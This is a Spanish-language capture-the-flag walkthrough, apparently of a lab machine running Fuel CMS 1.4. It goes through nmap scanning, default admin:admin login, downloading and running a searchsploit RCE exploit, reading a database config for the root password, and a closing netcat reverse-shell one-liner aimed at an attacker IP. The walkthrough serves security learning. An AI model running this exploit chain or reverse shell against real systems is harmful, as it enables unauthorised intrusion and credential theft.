- IP victima `10.10.100.241`

## Comprobar si tengo conexión
```
ping -c 1 10.10.100.241
```
<p align="center">
    
</p>
>ℹ
>		*Tenemos conexión con la máquina*


# Reconocimiento

## NMAP
```
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.100.241 -oN basic_scan
```
<p align="center">
    
</p>

# ENUMERACIÓN

## NMAP
```
nmap -p80 -sVC --min-rate 5000 -n -Pn -vvv 10.10.100.241 -oN ports_scan
```
<p align="center">
    
</p>
<p align="center">
    
</p>


### Puerto 80
- Voy al navegador para dar un vistazo al servidor web
<p align="center">
    
</p>
<p align="center">
    
</p>
<p align="center">
    
</p>
>ℹ
>		*Vemos varias cosas interesante.
>		- Primero vemos que es un CMS con al versión 1.4, y es como un tutorial como para instalar el CMS llamado FUEL.
>		- Tenemos listadas varias rutas que permiten escribir
>		- Nos muestra archivos de configuraciones
>		- Y al final una URL con usuario y contraseñas predeterminadas para entrar como administrador*


- #### Visito URL
- En la web tenemos la siguiente información
 <p align="center">
    
</p>
>ℹ
>	*No indica que en la ruta `http://10.10.100.241/fuel` podemos loguearnos como administradores con las credenciales `admin:admin`*	


- Visitio la URL	 
<p align="center">
    
</p>
>ℹ
>	* Tenemos un login, el cual introduzco las credenciales que tenemos `admin:admin`*

<p align="center">
    
</p>
>ℹ
>	*Estamos dentro del gestor CMS Fuel*


## Explotación

- Buscamos un exploit para la versión de este CMS
```
searchsploit fuel
```
<p align="center">
    
</p>


- Usamos el primero `47138`, asi que lo descargamos
```
searchsploit -m 50477.py
```
<p align="center">
    
</p>

- Vemos el código del exploit
```
cat 50477.py
```
<p align="center">
    
</p>
<p align="center">
    
</p>
>ℹ
>	*Este script es un exploit de ejecución remota de código (RCE) diseñado para aprovechar una vulnerabilidad en **Fuel CMS 1.4.1 o versiones anteriores**. Permite al atacante ejecutar comandos del sistema en el servidor en el que está alojado Fuel CMS y ver los resultados en la consola.
>
		Propósito:
		El exploit se conecta a un servidor que ejecuta Fuel CMS vulnerable y permite:
		- Verificar la conexión al servidor.
		- Enviar comandos al servidor y recibir su salida.
>	 
>	 Esto puede dar al atacante acceso no autorizado para manipular y obtener información del servidor remoto, dependiendo de los permisos del servidor y del usuario bajo el que corre Fuel CMS*


- Ejecuto el exploit
```
python3 50477.py -u http://10.10.135.11
```
<p align="center">
    
</p>
>ℹ
>	*Vemos que obtuvimos conexión con el servidor*


- Compruebo algún comando
```
whoami
```
<p align="center">
    
</p>
>ℹ
>	*Se ejecuta el comando propuesto*


- Como podemos ejecutar cualquier comandos, podemos ver información del sistema, por ejemplo:
```
cat fuel/application/config/database.php
```
<p align="center">
    
</p>
>ℹ
>	*Obtenemos la contraseña del usuario `root`*


- Sabemos cómo iniciar sesión como root, pero no tenemos forma de hacerlo. Tenemos que tratar de conseguir una shell en el sistema para poder cambiar nuestro usuario a root. Antes de eso, sin embargo, vamos a ver si podemos enviar la bandera de usuario usando esta interfaz de comando.
```
ls /home/www-data
```
<p align="center">
    
</p>

- Vemos el contenido del fichero enumerado
```
cat /home/www-data/flag.txt
```
<p align="center">
    
</p>
>ℹ
>	*Tenemos la bandera de usuario, ahora nos movemos para entrar en el sistema.*


Necesitamos una manera de conseguir una reverse shell, "sudo -l". Pero como tenemos ejecución remota de comandos, podemos intentar lanzarnos una `reverse shell`, por me dio de netcat.


- Ponemos a la escucha netcat
```
nc -nlvp 1234
```
<p align="center">
    
</p>


- En la ejecución remota de comandos podemos ejecutar el código:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.31 1234 >/tmp/f
```
